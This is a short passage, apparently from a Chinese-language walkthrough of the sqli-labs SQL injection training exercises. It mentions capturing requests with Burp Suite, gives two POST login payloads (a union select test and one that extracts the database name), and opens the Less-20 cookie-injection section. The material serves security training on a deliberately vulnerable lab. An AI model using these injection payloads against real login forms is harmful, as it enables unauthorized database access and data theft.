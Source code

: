 ![burpsuit，抓包修改参数](./assets/20250210/4889f046096d44f5b558691826623612.png)

联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

爆库payload

uname=admin' union select 1,database() --+&passwd=admin&submit=Submit

### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

单引号，报错型，cookie型注入。
